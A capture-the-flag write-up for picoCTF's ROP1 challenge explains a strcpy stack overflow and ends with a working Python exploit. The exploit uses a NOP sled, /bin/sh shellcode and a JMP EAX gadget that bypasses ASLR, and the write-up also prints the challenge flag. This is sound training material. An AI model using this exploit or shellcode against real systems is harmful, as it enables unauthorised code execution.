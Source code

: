 ### Solved by superkojiman

ROP1 is a 100 point exploitation challenge. We're given the following C code for rop1 and are told that it's running on a machine with ASLR: 

```c
#include <stdlib.h>

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

void vuln(char *name){
    char buf[64];
    strcpy(buf, name);
}

int main(int argc, char **argv){
    be_nice_to_people();
    if(argc > 1)
        vuln(argv[1]);
    return 0;
}
```

From the code provided we can see that there's a buffer overflow in the vuln() function due to the strcpy() call. Using pattern_create.rb and pattern_offset.rb, we find that EIP is at offset 76:

```text
root@kali ~/pico-ctf/rop1
# ./rop1 `pattern_create.rb 100`
Segmentation fault (core dumped)

root@kali ~/pico-ctf/rop1
# gdb -q -c core -batch -n -ex 'p $eip'
[New LWP 6170]
Core was generated by `./rop1 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3'.
Program terminated with signal 11, Segmentation fault.
#0  0x63413563 in ?? ()
$1 = (void (*)()) 0x63413563

root@kali ~/pico-ctf/rop1
# pattern_offset.rb 0x63413563
[*] Exact match at offset 76
```

Let's run the program within gdb and see what the state of the registers and the stack are at the time of the crash. I provided an input of 76 "A"s and 4 "B"s to overwrite EIP and set a breakpoint after the call to strcpy(); that is *vuln+24

```
gdb-peda$ pdisass vuln
Dump of assembler code for function vuln:
   0x08048e6d <+0>:     push   ebp
   0x08048e6e <+1>:     mov    ebp,esp
   0x08048e70 <+3>:     sub    esp,0x58
   0x08048e73 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x08048e76 <+9>:     mov    DWORD PTR [esp+0x4],eax
   0x08048e7a <+13>:    lea    eax,[ebp-0x48]
   0x08048e7d <+16>:    mov    DWORD PTR [esp],eax
   0x08048e80 <+19>:    call   0x80481e0
   0x08048e85 <+24>:    leave
   0x08048e86 <+25>:    ret
End of assembler dump.
gdb-peda$ br *vuln+24
Breakpoint 1 at 0x8048e85
gdb-peda$ r `python -c 'print "A"*76 + "BBBB"'`
[----------------------------------registers-----------------------------------]

EAX: 0xbfaf98a0 ('A' <repeats 76 times>, "BBBB")
EBX: 0x80481a8 (<_init>:        push   ebx)
ECX: 0xbfafa5c0 --> 0x524f0042 ('B')
EDX: 0xbfaf98ef --> 0xafa50042
ESI: 0x0
EDI: 0x80eb00c --> 0x8067850 (<__stpcpy_sse2>:  mov    edx,DWORD PTR [esp+0x4])
EBP: 0xbfaf98e8 ("AAAABBBB")
ESP: 0xbfaf9890 --> 0xbfaf98a0 ('A' <repeats 76 times>, "BBBB")
EIP: 0x8048e85 (<vuln+24>:      leave)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]

   0x8048e7a <vuln+13>: lea    eax,[ebp-0x48]
   0x8048e7d <vuln+16>: mov    DWORD PTR [esp],eax
   0x8048e80 <vuln+19>: call   0x80481e0
=> 0x8048e85 <vuln+24>: leave
   0x8048e86 <vuln+25>: ret
   0x8048e87 <main>:    push   ebp
   0x8048e88 <main+1>:  mov    ebp,esp
   0x8048e8a <main+3>:  and    esp,0xfffffff0
[------------------------------------stack-------------------------------------]

0000| 0xbfaf9890 --> 0xbfaf98a0 ('A' <repeats 76 times>, "BBBB")
0004| 0xbfaf9894 --> 0xbfafa571 ('A' <repeats 76 times>, "BBBB")
0008| 0xbfaf9898 --> 0xbfaf99a0 --> 0xbfafa5c2 ("ORBIT_SOCKETDIR=/tmp/orbit-root
")
0012| 0xbfaf989c --> 0x3
0016| 0xbfaf98a0 ('A' <repeats 76 times>, "BBBB")
0020| 0xbfaf98a4 ('A' <repeats 72 times>, "BBBB")
0024| 0xbfaf98a8 ('A' <repeats 68 times>, "BBBB")
0028| 0xbfaf98ac ('A' <repeats 64 times>, "BBBB")
[------------------------------------------------------------------------------]

Legend: code, data, rodata, value

Breakpoint 1, 0x08048e85 in vuln ()
gdb-peda$
```

After the leave instruction is executed, EIP will be set to 0x424242. EAX points to our buffer of "A"s and since the binary doesn't have the NX bit, we can execute shellcode on the stack. To bypass ASLR, we just need to find an address that will do a JMP/CALL EAX and set that as our return address. msfelfscan can find a list of instructions to accomplish this: 

```
root@kali ~/pico-ctf/rop1
# msfelfscan -j eax rop1
[rop1]
0x08048d86 call eax
0x08048df4 call eax
0x08048e3c call eax
0x08049691 call eax
.
.
.

0x080e142f jmp eax
0x080e336e push eax; ret
0x080e53b3 jmp eax
0x080e873b call eax
0x080ea02c push eax; retn 0x0805
0x080ed99c push eax; ret
.
.
.
```

Out of the list I picked 0x080e142f which is a JMP EAX. For shellcode, I picked one that would execute /bin/sh. The final exploit code:

```python
import struct

shellcode = (
"\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb"+
"\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89"+
"\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd"+
"\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f"+
"\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42"
)

# eip offset 76
jmpeax = struct.pack("<I", 0x080e142f)  # jmp eax

print "\x90"*21 + shellcode + jmpeax
```

Finally, exploit the binary and read the flag:

```text
pico1139@shell:~/skj$ id
uid=11066(pico1139) gid=1017(picogroup) groups=1017(picogroup)
pico1139@shell:~/skj$ /home/rop1/rop1 `python ./sploit.py`
$ id
uid=11066(pico1139) gid=1004(rop1) groups=1017(picogroup)
$ cat /home/rop1/flag.txt
theres_no_need_to_guess
$ 
```

The flag is **theres_no_need_to_guess**
